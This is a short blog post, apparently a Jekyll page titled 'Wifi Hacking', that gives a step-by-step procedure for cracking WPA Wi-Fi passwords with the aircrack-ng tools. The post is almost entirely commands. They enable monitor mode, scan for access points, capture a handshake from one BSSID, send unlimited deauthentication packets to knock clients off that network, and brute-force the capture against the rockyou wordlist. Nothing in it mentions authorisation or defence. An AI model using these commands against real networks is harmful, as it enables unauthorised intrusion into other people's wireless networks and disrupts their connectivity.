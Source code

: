 ```yaml
---
layout: post
title: Wifi Hacking
---
```


*Alfa-card is mandatory to search/scan for available Networks*

Steps:
**Connect alfa-card and check the Interfaces**

  Run - ipconfig/iwconfig - after this you will get the wlan0 interface

**Start Monitor Mode**

	Run - airmon-ng start wlan0

**Verify its Monitor Mode**

  Run - airmon-ng/iwconfig

**Now Scan/Check for Nearby Available Networks**

  Run - airodump-ng wlan0mon
  
The above command this will display or show list of available networks and make sure you capture and keep a note of AP's MAC address(BSSID) and channel
*AccessPoint(AP)*

**After getting BSSID and Channel id
Start Capturing the Handshake and Attack the same Time or after 5min.**

	Run - airodump-ng -w test -c 11 --bssid BE:A5:8B:65:F8:FE wlan0mon - to capture the Handshake

	aireplay-ng --deauth 0 -a BE:A5:8B:65:F8:FE wlan0mon - to attack the network

	**-w to save a file** 

	**Now Stop the Monitormode and brute force the captured handshake**

	Run - airmon-ng stop wlan0mon

	**Bruteforce the saved file with the wordlists to crack the password**

	aircrack-ng test.cap -w /usr/share/wordlists/rockyou.txt 
